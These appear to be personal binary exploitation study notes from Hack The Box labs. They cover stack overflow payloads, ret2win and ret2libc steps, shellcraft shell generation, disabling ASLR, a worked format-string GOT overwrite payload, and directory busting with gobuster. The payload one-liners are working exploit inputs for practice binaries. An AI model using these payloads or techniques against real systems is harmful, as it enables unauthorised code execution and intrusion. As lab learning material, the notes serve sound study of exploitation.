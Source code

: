 ```yaml
---
title: "Binary Exploitation - By HTB"
tags:
  - cs/hacking
  - cs/hacking/htb 
programming-languagues:
created: 2022-06-30
---
```

## 00
- Check file vulnerabilities:
```bash
checksec --file <filename>
```

- Gets rid of Stack, NX and PIE protection (-m32 changes to 32bits):
```bash
gcc <filename>.c -o <filename> -fno-stack-protector -z execstack -no-pie -m32
```

## 01
GDB-Pwndbg:
- It breaks exactly where the breakpoint is.

To view a variable/condition you can use the code below. This would print the location of the result, so it is a pointer to a register that holds it.
```bash
x $ebp - 0xc
```

You can then change that register like this:
```bash
set *0xffffceac = 1
```

## 02
If file type is **LSB** then reverse order, for example _dead_ would be _daed_. To get it:

```bash
python2 -c 'print 32 * "A" + "\xef\xbe\xad\xde"'
```

Send to a file and run with it: (xD)
```bash
python2 -c 'print 32 * "A" + "\xef\xbe\xad\xde"' > payload
./runMeImaFile < payload
```

## 03
Radare2:
```bash
aa
afl
```

We can use `cyclic 100` in `gdb-pwndbg` to generate a pattern, then run that into the program. We then get the characters in the register (eg `eip`) and run `cyclic -l <string>`, so for example: 
```bash
cyclic -l haaa
```

It will return how many bytes we need to overflow.

If the function we want to access is in `0x08049182` for example, we can do:
```bash
python2 -c 'print "A" * 28 + "\x82\x91\x04\x08"' > payload
```

```bash
ropper --file ret2win_params --search "pop rsi"
```

## 04
We check the `cycle`, then figure out how much to overflow. We find the `return` address (what function returns), set a breakpoint to it then run the program with the payload generated.

deadbeef = `\xef\xbe\xad\xde`

When a function is called, the return pointer is pushed to the stack, so it knows where to return to, followed by any function parameters.

With 64bits, we have to populate the registers not just send the parameters, for example `rdi` and `rsi`. We also when running `cyclic` take the values from the `RSP`, for example the first four.

## 05
Getting a shell:
```bash
shellcraft -l
shellcraft i386.linux.sh

# to get it in assembly:
shellcraft i386.linux.sh -f a
```

To get a reverse shell:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash");'
# control + z
stty raw -echo; fg;
export TERM=xterm
```

## 06
This file is safer as you can see with `checksec`. Therefore, we need to execute `bin/sh` from LibC.

To find libC we can run `ldd <filename>`.

To turn off randomiser:
```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

To get libC address:
```bash
ldd <filename>
```

To find the offset from base libC to system:
```bash
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
```

To find offset to `/bin/sh` for example:
```bash
strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep "/bin/bash"
```

## 08
- https://guyinatuxedo.github.io/5.1-mitigation_aslr_pie/index.html
- https://github.com/shellphish/how2heap
- https://ir0nstone.gitbook.io/notes/types/stack

- Can use `piebase` in gdb-pwndbg to figure out the offset. For example, `breakrva <a function for example 0x11f0` sets a breakpoint in that function no matter if the program restarts as it knows the offset from the top of the run.

To find **libc** in a remote server: https://libc.blukat.me/ by using the leaked address, for example puts.

We can find the `GOT.printf` address in Ghidra, inside `.got.plt`. We can then write something at it.

### Tutorial
- Need to overwrite 0x0804c00c (`GOT.printf`) with 0xf7dff040 (`LIBC.system`).

- It means writing 0xf7df (63455) @ 0x0804c00c + 2 = 0x0804c00e (high order) and 0xf040 (61504) @ 0x0804c00c (low order).

- Now, we have to figure out the value to set for the padding. Here is the formula :

```
[The value we want] - [The bytes alredy wrote] = [The value to set].            
```                                                                                  

- Let’s start with the low order bytes :                                        

It’ll will be 61504 - 8 = 61496, because we already wrote 8 bytes (the two 4 bytes addresses).

- Then, the high order bytes:                                                  

It’ll will be 63455 - 61504 = 1951, because we already wrote 61504 bytes (the two 4 bytes addresses and 61496 bytes from the previous writing).                                                     

- Now we can construct the exploit (note our write offset is `%4` so we want `[%4,%5]` as offsets instead of `[%7,%8]`):

```
      \x0c\xc0\x04\x08 or 0x0804c00c (in reverse order) points to the low order bytes.    
      \x0e\xc0\x04\x08 or 0x0804c00e (in reverse order) points to the high order bytes.
      %61496x will write 61496 bytes on the standard output.                                              
      %4$hn will write 8 + 61496 = 61504 bytes (or 0xf040) at the first address specified (0x0804c00c).
      %1951x will write 1951 bytes on the standard output.                                                  
      %5$hn will write 8 + 61496 + 1951 = 63455 (or 0xf7df) at the second address specified (0x0804c00e).
```                                                                                            

```python
  python2 -c 'print("\x0c\xc0\x04\x08\x0e\xc0\x04\x08%61496x%4$hn%1951x%5$hn")' > payload
```                                                                                      

  * Based on excellent blogpost: https://axcheron.github.io/exploit-101-format-strings/

```bash
(cat payload; cat) | ./got_overwrite
```

## HTB - Explosion (Starting Point)
- Info on ports [here](https://www.speedguide.net/ports.php).

## HTB - Preignition (Starting Point)
- Dir busting:
```bash
sudo gobuster dir -w /usr/share/wordlists/dirb/common.txt -u {ip}
```

## HTB - Bike (Starting Point)
Hacktricks guide ([here](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection))

### Useful tools
- Ghidra
- GDB
- Radare2
- Ropper
- GDB-PwnDBG
- LTrace